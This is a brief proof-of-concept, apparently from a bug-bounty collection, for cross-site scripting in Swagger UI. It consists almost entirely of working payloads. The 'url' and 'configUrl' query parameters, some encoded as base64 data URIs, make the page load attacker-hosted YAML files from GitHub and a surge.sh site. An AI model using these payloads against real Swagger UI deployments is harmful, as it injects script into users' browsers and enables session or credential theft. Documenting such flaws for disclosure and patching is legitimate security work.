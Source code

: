 # POC

Via "url" parameter

> ?url=https://raw.githubusercontent.com/karkis3c/bugbounty/main/swagger/xss.yaml

> ?url=https://tearful-earth.surge.sh/test.yaml

Via "configUrl" parameter

> ?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2thcmtpczNjL2J1Z2JvdW50eS9tYWluL3N3YWdnZXIveHNzLnlhbWwiCn0=

> ?configUrl=data:text/html;base64,ewoidXJsIjogImh0dHBzOi8vdGVhcmZ1bC1lYXJ0aC5zdXJnZS5zaC90ZXN0LnlhbWwiLAp9
